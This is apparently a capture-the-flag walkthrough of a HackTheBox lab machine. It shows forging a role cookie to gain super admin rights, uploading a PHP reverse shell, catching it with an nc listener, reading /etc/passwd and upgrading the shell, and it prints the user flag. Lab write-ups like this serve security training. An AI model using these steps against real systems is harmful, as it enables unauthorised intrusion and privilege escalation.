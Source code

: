 ~~But the question is, what is the access id for? (Tried 3342 as the password for `ssh` (`root@10.10.10.28`) and it fails.)~~

Okay, the access id is actually for the website's cookie, and the website's cookie determines the role (and therefore the privileges) of the user.

The name corresponds to `role` in the cookie, and the access id corresponds to `user` in the cookie.

The uploads page is blocked, requiring 'super admin' rights. We probably need the uploads page if we want a reverse shell.

To find more information and try to obtain super admin rights, we can try to enumerate `id` some more. 

This would be too tiring and slow by hand, so I wrote a script, `bruteForceAdminSelenium.py`, with Python using Selenium to automate the process.

I noticed the Access ID and name fell in a table (the only table on the page), so it was easy to grab data using Selenium's `driver.find_element_by_xpath("//table[1]").text` (find the first table and get the text within it).

At `id=30`, we see:
* Access ID: 86575
* Name: super admin
* Email: superadmin@megacorp.com

Changing my cookie (I used Firefox's `Cookie Quick Manager` extension), and accessing uploads, we find that we can now upload files to the server.

If the server doesn't sanitize files that are uploaded, we can try to get a reverse shell by uploading a payload and calling it. 

First we find our ip using `ifconfig`, looking for `tun0`'s `inet` since we are using openvpn. 

This ip will be `LHOST` for the payload. (You want the target to connect to your ip)

We use `php-reverse-shell.php` (included by default with Kali Linux under `/usr/share/webshells`) to generate a reverse php shell and edit it to use our ip.

We then upload it to the server.

Earlier analysis with `dirbuster` shows there is an `uploads` folder, so we can try to call our uploaded file with that.

First we set up a listener with `nc -lvnp 443` (I used port 443 for the shell)

Then we `curl 10.10.10.28/uploads/php-reverse-shell.php` 

We are in!

Now we need to escalate privileges. First let's get a list of users using `cat /etc/passwd`. We find robert to be an interesting user, so let's go to `/home/robert`. We find a file named `user.txt`, containing the text `f2c74ee8db7983851ab2a96a44eb7981`. Let's save it for now.

`su robert` doesn't work because php shell doesn't count as a terminal, so we get the error `su: must be run from a terminal`.

To upgrade the shell, we use 

```bash
SHELL=/bin/bash script -q /dev/null
stty raw -echo
reset
xterm
```
*HackTheBox's walkthrough included some commands that didn't work/caused problems when used, need to find out why*
